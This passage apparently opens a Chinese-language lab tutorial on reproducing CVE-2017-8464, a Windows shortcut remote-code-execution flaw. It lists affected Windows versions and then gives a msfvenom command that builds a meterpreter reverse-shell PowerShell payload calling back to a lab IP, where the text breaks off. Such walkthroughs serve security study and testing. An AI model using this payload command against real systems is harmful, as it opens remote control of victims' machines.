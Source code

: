 ![Alt text](image-57.png)

# 2、CVE-2017-8464、CVE-2018-4878 漏洞复现
## 2.1 CVE-2017-8464
### 2.1.1 漏洞介绍
`CVE-2017-8464`（震网三代） 是远程命令执行漏洞，是 windows 系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘，网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。   
### 2.1.2 影响版本
```text
 cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1511:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1607:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1703:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_7:-:sp1:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_rt_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2008:-:sp2:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2008:r2:sp1:*:*:*:*:itanium:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows server 2008:r2:sp1:*:*:*:*:x64:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2012:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2012:r2:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2016:-:*:*:*:*:*:*:* Show Matching CPE(s)
```   
### 2.1.3 漏洞利用
首先使用在`kali`下使用 `msfvenom` 生成一个反弹shell。   
```shell
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.228.129 lport=4444 -f psh-reflection > ~/test.ps1
```   